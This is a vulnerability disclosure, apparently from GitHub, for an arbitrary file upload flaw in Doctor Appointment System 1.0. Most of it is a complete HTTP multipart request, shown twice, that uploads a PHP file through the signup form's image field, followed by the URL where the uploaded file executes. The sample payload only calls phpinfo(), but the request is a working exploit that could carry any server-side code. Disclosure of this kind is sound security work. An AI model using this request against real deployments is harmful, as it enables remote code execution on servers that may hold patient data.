


# Doctor Appointment System 1.0 - Arbitrary File Upload
#### Exploit Title: Doctor Appointment System 1.0 - Arbitrary File Upload  
#### Version：Doctor Appointment System 1.0
#### Google Dork: N/A
#### Date: 26/08/2022
#### Software Link: `https://github.com/divScorp/Doctor-Appointment`

#### Description：Doctor Appointment System contain arbitrary file upload.Registered user can upload info.php files in attachments section with use of intercept tool in Burp Suite to edit the raw.
  
<br />

#### Payload used:
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```

<br />

#### Example：

1.User registration

http://127.0.0.1/Doctor-Appointment/Frontend/signup.php



2.Send Payload
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```
<br />
3.Successfully executed phpinfo()

http://127.0.0.1/Doctor-Appointment/Frontend/imge/info.php




